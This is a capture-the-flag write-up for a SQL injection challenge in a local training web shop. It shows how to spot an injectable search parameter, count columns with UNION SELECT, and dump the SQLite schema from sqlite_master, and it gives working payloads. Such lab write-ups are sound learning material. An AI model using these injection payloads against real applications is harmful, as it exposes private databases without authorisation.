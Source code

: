 ## Database Schema
### Challenge: Exfiltrate the entire DB schema definition via SQL Injection.
### Category: Injection

Using burp, intercept a HTTP request for search product. Observe that the parameter `q=` is injectable.

When using burp repeater to modify the parameters `apple'` 

```
GET /rest/products/search?q=apple' -- HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:73.0) Gecko/20100101 
...
```

We can observe from the error messages in response that this is a `sqlite3` database and the following sql statement is used for search function 

```sql
"SELECT * FROM Products WHERE ((name LIKE '%apple'%' OR description LIKE '%apple'%') AND deletedAt IS NULL) ORDER BY name"
```

Using the following sql statement we can `a%'))+union+select+1,2,3,4,5,6,7,8,9+--`
we can infer the number of columns which leads us to 9 since there is an error message `"SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns",`.

![sqli1.png](sqli.png)

![sqli2.png](sqli2.png)

To dump sqlite schema, we can use the following sql select statement cheatsheet from [https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet](https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet)
```sql
SELECT sql FROM sqlite_master WHERE type='table'
```

To combine with our sql union select statement `asd'))+union+select+sql,2,3,4,5,6,7,8,9+from+sqlite_master+where+type='table'--`

![sqli3.png](sqli3.png)

We have completed the challenge, but since this is a little not very 'humanly readable'. We could do the simple trick of copy paste it to sublime, and replace all 'TABLE' word with ENTER key. We have a the schema in a easier to see format

![sqli4.png](sqli4.png)